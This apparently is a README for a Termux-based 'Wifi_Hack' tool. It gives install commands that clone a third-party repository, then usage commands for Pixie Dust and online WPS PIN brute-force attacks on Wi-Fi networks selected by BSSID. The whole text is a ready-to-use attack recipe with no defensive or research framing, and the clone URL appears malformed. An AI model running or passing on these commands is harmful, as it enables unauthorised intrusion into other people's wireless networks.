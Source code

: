 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/paybackking/HD_Wifi/HD_Wifi
$ cd HD_Wifi
$ chmod +x elitewifi.py
$ sudo python elitewifi.py --help
```

#### Example : `sudo python elitewifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python elitewifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python elitewifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python elitewifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
